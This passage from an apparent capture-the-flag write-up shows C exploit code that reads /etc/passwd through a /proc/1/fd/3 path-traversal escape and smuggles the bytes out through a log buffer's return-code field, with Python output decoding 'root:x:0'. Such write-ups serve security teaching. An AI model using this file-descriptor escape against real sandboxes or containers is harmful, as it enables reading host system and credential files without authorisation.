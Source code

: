         fclose(file_to_read);
        fclose(log);
    }
    

The `fread` will get 8 bytes from `passwd` and store it 56 bytes into the 64
byte buffer, which is where the return code goes.

When I compile and upload this one, the entry for 0xdfdf has a non-zero
response:

![image-20220907142040142](https://0xdfimages.gitlab.io/img/image-20220907142040142.png)

That decodes to `root:x:0` (once the byte order is fixed):

    
    
    >>> bytes.fromhex('303a783a746f6f72').decode()
    '0:x:toor'
    >>> bytes.fromhex('303a783a746f6f72').decode()[::-1]
    'root:x:0'
    

That’s success.

#### Read Entire File

Next I want to get more than eight bytes. I’ll loop over the file, reading 8
bytes into the return address, and and writing another log entry:

    
    
    #include <stdio.h>
    
    int main() {
    
        size_t bytesRead = 0;
    
        FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../../../etc/passwd", "r");
        FILE *log = fopen("/log", "a");
        char buf[64] = {0};
        ((unsigned long*)buf)[0] = 0xdfdf;
    
        while ((bytesRead = fread(&buf[56], 1, 8, file_to_read)) > 0) {
            fwrite(buf,1,64,log);
        }
    
        fclose(file_to_read);
        fclose(log);
    }
    

This returns 182 syscalls!

![image-20220907142608161](https://0xdfimages.gitlab.io/img/image-20220907142608161.png)

#### Script File Download

I’ll write a Python script to grab all the syscalls and rebuild the file from
that. [This video](https://www.youtube.com/watch?v=nGm36Hd-p4s) shows the
development of the exploit:
